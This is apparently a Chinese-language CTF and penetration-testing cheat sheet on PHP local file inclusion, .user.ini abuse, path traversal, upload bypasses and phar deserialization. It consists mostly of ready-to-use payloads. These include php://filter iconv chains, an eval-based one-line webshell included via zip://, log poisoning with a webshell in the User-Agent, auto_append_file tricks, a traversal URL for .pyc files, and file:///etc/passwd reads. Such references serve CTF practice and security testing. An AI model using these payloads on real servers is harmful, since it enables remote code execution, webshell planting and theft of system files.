 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                                                                                                         |     |
| ------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                                                                                                                 |     |
| `?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php` <br> `?file=php://filter/convert.iconv.UTF8.CSISO2022KR\|convert.iconv.ISO2022KR.UTF16\|convert.iconv.L6.UCS2/resource=flag.php`| UTF-8过滤器 , 可以上面两个联合用
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行   [原理](https://goodapple.top/archives/968) |     |
| glob://                                                |                                                                                                                                                 |     |
| 上传 a.zip 改为 a.jpg                                  | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23a` 密码为 a      |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                      |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                                                                                                          |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                   | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
- %00 截断 php 版本小于 5.3.4
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的远不至于 file_get_contents，所有的文件函数都会导致这个问题

```sh
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
